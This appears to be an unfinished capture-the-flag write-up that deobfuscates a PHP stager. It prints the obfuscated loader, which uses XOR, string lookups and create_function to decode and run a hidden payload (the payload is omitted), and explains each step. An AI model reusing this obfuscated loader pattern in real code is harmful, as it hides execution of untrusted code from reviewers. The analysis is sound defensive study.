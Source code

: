 # PHP Stager
## Ugh, we found PHP set up as an autorun to stage some other weird shady stuff. Can you unravel the payload?

A file is joined to the challenge

---


Let's download the file to begin! 


```php
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = /* Placeholder for a f*cking very long string I decided to not paste here */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/

        
```


I put your attention to the fact I decided not to paste a `VeryLongString` here for readability. I will put the string at the end of this writeup


## Let's tidy up this code

After modifying variable names and indent a bit this php code I managed to have something readable. 

```php
# deGRi() function looks like a XOR so I renamed it
function xorr($a, $b = '') { 
   
   $c = $a; $d = ''; 
   for ($i = 0; $i < strlen($c);) { 
      for ($j = 0; $j < strlen($b) && $i < strlen($c); $j++, $i++) { 
         $d .= $c[$i] ^ $b[$j]; 
      } 
   } 
   return $d; 
}


$SimpleString=")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$VeryLongString = "/* Placeholder for a f*cking very long string I decided to not paste here */"
$Base64Decode = "";
$ReverseString = "";


#This part here goes into $SimpleString to fetch character and put them in a variable (result=Base64Decode()) So I also renamed the variable
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $position){
   $Base64Decode .= $SimpleString[$position];
}

#This part here goes into $SimpleString to fetch character and put them in a variable (result=strrev()) So I also renamed the variable
foreach([26,16,14,14,31,33] as $position){
   $ReverseString .= $SimpleString[$position];
}


# Here we have $k as CreateFunction()
$k = $ReverseString('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $Base64Decode( xorr($Base64Decode($VeryLongString), "tVEwfwrN302")));
$c();
```


So this code decodes the `VeryLongString` in this order:

1. Base64
2. XOR with `tVEwfwrN302` as key
3. Another base64

Once decoded we have another very long php code. 

TODO : FINISH 


## VeryLongString